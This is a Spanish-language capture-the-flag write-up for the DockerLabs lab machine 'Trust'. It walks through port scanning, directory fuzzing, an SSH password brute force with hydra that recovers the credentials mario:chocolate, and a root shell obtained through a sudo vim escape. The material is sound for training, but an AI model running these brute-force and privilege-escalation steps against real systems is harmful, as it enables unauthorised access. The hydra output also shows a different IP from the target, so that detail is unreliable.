 # 🖥️ Writeup - Trust 

**Plataforma:** Dockerlabs  
**Sistema Operativo:** Linux  

# INSTALACIÓN

Descargamos el `.zip` de la máquina desde DockerLabs a nuestro entorno y seguimos los siguientes pasos.

```bash 
unzip trust.zip
```
La máquina ya está descomprimida y solo falta montarla.

```bash
sudo bash auto_deploy.sh trust.tar
``` 
Info:

```

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
``` 

Una vez desplegada, cuando terminemos de hackearla, con un `Ctrl + C` se eliminará automáticamente para que no queden archivos residuales.

# ESCANEO DE PUERTOS

A continuación, realizamos un escaneo general para comprobar qué puertos están abiertos y luego uno más exhaustivo para obtener información relevante sobre los servicios.

```bash
nmap -n -Pn -sS -sV -p- --open --min-rate 5000 172.17.0.2
``` 

```bash
nmap -n -Pn -sCV -p22,80 --min-rate 5000 172.17.0.2
```

Info:
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-11 17:08 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000026s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 19:a1:1a:42:fa:3a:9d:9a:0f:ea:91:7f:7e:db:a3:c7 (ECDSA)
|_  256 a6:fd:cf:45:a6:95:05:2c:58:10:73:8d:39:57:2b:ff (ED25519)
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-server-header: Apache/2.4.57 (Debian)
|_http-title: Apache2 Debian Default Page: It works
MAC Address: 02:42:AC:12:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.90 seconds
```

Entramos por el puerto `80` y vemos que solo hay una página por defecto de `Apache2`.

# GOBUSTER

Realizamos `fuzzing` de directorios para localizar directorios o archivos ocultos.

```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,zip,php,txt,bak,sh -b 403,404 -t 60
```

Info:
```
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 60
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   403,404
[+] User Agent:              gobuster/3.8
[+] Extensions:              html,zip,php,txt,bak,sh
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 10701]
/secret.php           (Status: 200) [Size: 927]
Progress: 541850 / 1543899 (35.10%)`
```

Encontramos un archivo llamado `secret.php`, al que accedemos desde el navegador.

![alt text](../images/mario.png)

El mensaje que aparece nos hace pensar que podría existir un usuario `mario` en el sistema.

# FUERZA BRUTA

Asumiendo que existe este usuario, intentamos obtener sus credenciales mediante un ataque de `fuerza bruta` por `SSH`.

```bash
hydra -l mario -P /usr/share/wordlists/rockyou.txt 172.17.0.2 ssh -t 60
```

Info:
```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-09-11 17:12:32
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 60 tasks per 1 server, overall 60 tasks, 14344399 login tries (l:1/p:14344399), ~239074 tries per task
[DATA] attacking ssh://172.18.0.2:22/
[22][ssh] host: 172.18.0.2   login: mario   password: chocolate
```

Obtenemos credenciales para el usuario `mario` : `chocolate`.

Accedemos por `SSH`.

```bash
ssh mario@172.17.0.2
```

# ESCALADA DE PRIVILEGIOS

Una vez dentro, comprobamos permisos `sudo`, `SUID`, `Capabilities`.

```bash 
sudo -l
```

Info:
```
Matching Defaults entries for mario on 81fcf48571ad:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User mario may run the following commands on 81fcf48571ad:
    (ALL) /usr/bin/vim
```

Comprobamos que podemos ejecutar el binario `vim` con privilegios de `root`, lo cual explotamos de la siguiente manera:

```bash
sudo vim -c ':!/bin/sh'
```

Info:
```
# whoami
root
#
```

Ya somos root!